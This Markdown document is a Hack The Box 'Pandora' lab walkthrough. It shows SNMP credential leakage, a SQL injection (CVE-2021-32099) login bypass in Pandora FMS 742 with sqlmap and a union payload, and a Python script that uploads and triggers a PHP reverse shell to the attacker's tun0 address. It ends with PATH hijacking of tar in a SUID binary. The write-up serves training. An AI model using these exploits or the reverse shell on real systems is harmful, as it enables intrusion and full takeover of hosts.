

<p align="right"><a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.136 pandora.htb

**nmap scan: TCP/IP**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Noting interested found webapp, except a hostname `panda.htb` from multiple places on `/index.html`

**nmap scan: UDP**
```bash
PORT    STATE         SERVICE
161/udp open|filtered snmp
```

# Foothold

## enumerating SNMP

* Check [htbBox:pit](../pit/README.md#snmp-enumeration) for detail information on SNMP

after running for a while, `snmpwalk` found some strings from "[hrSWRunParameters](https://cric.grenoble.cnrs.fr/Administrateurs/Outils/MIBS/?oid=1.3.6.1.2.1.25.4.2.1.5)" in which found some creds.
```bash
❯ snmpwalk -v2c -c public 10.10.11.136 1.3.6.1.2.1.25.4.2.1.5.822
HOST-RESOURCES-MIB::hrSWRunParameters.822 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
```

* Creds: `daniel:HotelBabylon23`
* you could run `snmpwalk -v2c -c public 10.10.11.136 hrSWRunParameters` to view all stings.


And successfully logged-in into SSH with found creds.

## Lateral movement

There are 2 interesting binaries
```bash
/usr/bin/pandora_backup
/usr/bin/host_check
```

And 1 more user besides "daniel",
```bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
```

Who have access to SUID binary `/usr/bin/pandora_backup`
```bash
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
```

There are 2 www direcotries
```bash
drwxr-xr-x 3 root root 4096 Dec  7 14:32 html
drwxr-xr-x 3 matt matt 4096 Dec  7 14:32 pandora
```

"Pandora" is owned by user "matt"

Viewing `/etc/hosts` file found another vHost `pandora.pandora.htb`
```bash
daniel@pandora:/var/www/pandora$ cat /etc/hosts
127.0.0.1 localhost.localdomain pandora.htb pandora.pandora.htb
127.0.1.1 pandora
```

But "Pandora" is not available from remote because it is configured to access only from localhost
```html
daniel@pandora:/etc/apache2/sites-available$ cat pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

And service running is "[Pandora FMS](https://pandorafms.com/en/)"
```bash
daniel@pandora:/etc/apache2/sites-available$ curl -s http://127.0.0.1/pandora_console/ | grep -i '<title>'
	<title>Pandora FMS - the Flexible Monitoring System</title>
```

One way we can access to this localhost services is using ssh [dynamic port forwarding](https://www.redhat.com/sysadmin/ssh-dynamic-port-forwarding)
```bash
ssh -D 4141 daniel@10.10.11.136
```

Then, there are multiple ways to configure proxy using proxychains, shell env_variable, browser proxy add-on, burpsuite.

* **proxychains:** Append "`socks5 127.0.0.1 4141`" line in the end of the "`/etc/proxychains.conf`" and comment out any other active proxy.
* **shell env_variable:** Run following command: `export http_proxy=socks5://127.0.0.1:4141`
* **browser proxy add-on:** Use "FoxyProxy" and add new proxy rule for "Proxy Type=SOCKS5", "IP=127.0.0.1", "PORT=4141"
* **Burpsuite:** If you are using burp than check this - "User options --> Connections --> SOCKS proxy" 


## Pandora FMS - SQLi and file upload

* Running version is: v7.0NG.742_FIX_PERL2020, Found in the bottom of the login page

Login with creds return some access limitations error


There are some bugs in Pandora FMS 742
* Disclosure Blog: https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/
* CVE Detail: https://www.cvedetails.com/cve/CVE-2021-32099/Artica-Pandora-Fms-742.html
* PoC Video: https://youtu.be/61KE45V7VT8

> CVE-2021-32099: A SQL injection vulnerability in the pandora_console component of Artica Pandora FMS 742 allows an unauthenticated attacker to upgrade his unprivileged session via the /include/chart_generator.php session_id parameter, leading to a login bypass. 

Used to bypass login.

### Code review

Here is the [step file](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/742/Debian_Ubuntu/) of Pandora FMS v7.0NG.742

but we are going to read sourcecode from `/var/www/pandora/pandora_console`

It start from `./include/chart_generator.php`


`session_id` parameter value assign to `phpsessionid` and pass to `./include/lib/User.php`



Here `phpsessionid` value assign to `id_session` and pass to `db_get_row_filter()` function.

This function found in many places but we are intrested in mysql's version (because `ss -lntp` PORT 3306) of that function which found in `./include/db/mysql.php`


So, here is the sql query statement `sprintf('SELECT %s FROM %s %s', $fields, $table, $filter)`

And  here's how it looks like, when it get executed

* `fields` == `*`
* `table` == `tsessions_php`
* `filter` == `id_session` == `phpsessionid` == `session_id`

```sql
SELECT * FROM tsessions_php WHERE id_session=session_id
```

### SQLMAP

We have enough information, Time to run sqlmap
```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141'
```


```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141' --technique=E --dbs
... [snip] ...
[18:13:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:13:19] [INFO] fetching database names
[18:13:20] [INFO] retrieved: 'information_schema'
[18:13:21] [INFO] retrieved: 'pandora'
available databases [2]:
[*] information_schema
[*] pandora
```

```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141' --technique=E -D pandora -T tsessions_php --dump
```


Here are those session and there decoded values.

Copy admin cookie encode value from "id_session" column and replace "PHPSESSID" value with it using cookie editor and refresh pandora login page.

Or you could use some sql inject payload to set your session as admin without dumping table everytime using `/include/chart_generator.php` parameter `session_id` with sql injection payload.
```
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=1' union select 'NULL','NULL','id_usuario|s:5:"admin";'-- -
```

And the complete query looks like this
```sql
SELECT * FROM tsessions_php WHERE id_session='1' union select 'NULL','NULL','id_usuario|s:5:"admin";'-- -
```

### File Upload

And here we have admin panel with insecure file upload function


If you intercept file upload request you will found upload location is `/var/www/pandora/pandora_console/images` that means `/pandora_console/images` from web server.


We have done so much and here is the python presentation of it
```py
import requests
import netifaces as ni

base_path = "http://127.0.0.1/pandora_console"
tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
rev = f"<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/{tun0_ip}/4242 0>&1'\"); ?>"
s = requests.Session()
s.proxies = {"http": "socks5://127.0.0.1:4141"}
sqli = "/include/chart_generator.php?session_id=1' union select '1','2','id_usuario|s:5:\"admin\";' -- -"
sess = s.post(base_path + sqli)
if "Pandora FMS Graph ( - )" in sess.text:
    print("[ + ] Logged in!")
    file_ = {'file': ("shell.php", rev, 'application/x-php'),
             'umask': (None, None),
             'decompress_sent': (None, 1),
             'go': (None, 'Go'),
             'real_directory': (None, '/var/www/pandora/pandora_console/images'),
             'directory': (None, 'images'),
             'hash': (None, '6427eed956c3b836eb0644629a183a9b'),
             'hash2': (None, '594175347dddf7a54cc03f6c6d0f04b4'),
             'upload_file_or_zip': (None, 1)}
    shell_upload = s.post(base_path + "/index.php?sec=gsetup&sec2=godmode/setup/file_manager", files=file_)
    if "Uploaded successfully" in shell_upload.text:
        print("[ + ] Great. PHP script uploaded... Now going to execute for you...")
        try:
            f = s.get(base_path + '/images/shell.php', timeout=0.0001)
            print(f.text)
        except requests.exceptions.ReadTimeout:
            pass
    else:
        print("[ - ] Failed to upload PHP script...")
        print(shell_upload.text)
else:
    print("[ - ] Cannot login to PandoraFMS...")
```


# Privesc

## setresuid Restriction Bypass

Now we can access to `/usr/bin/pandora_backup`.

But running `sudo -l` gives an error
```bash
(remote) matt@pandora:/home/matt$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

And this error tells that user don't have permission to run [`setresuid()`](https://man7.org/linux/man-pages/man2/setresuid.2.html) function.

That means we can not able to run suid binaries as root.

we could use `at` command to bypass shell restriction
```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```


Now, Running strings on that bianry found 1 command, That this bianry is executing
```bash
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```

Here we can exploit `tar` command absolute path as bianry is not using `tar` command absolute path

```bash
cd /tmp
echo "/bin/bash" > tar
chmod 777 tar
export PATH=/tmp:$PATH
/usr/bin/pandora_backup
```


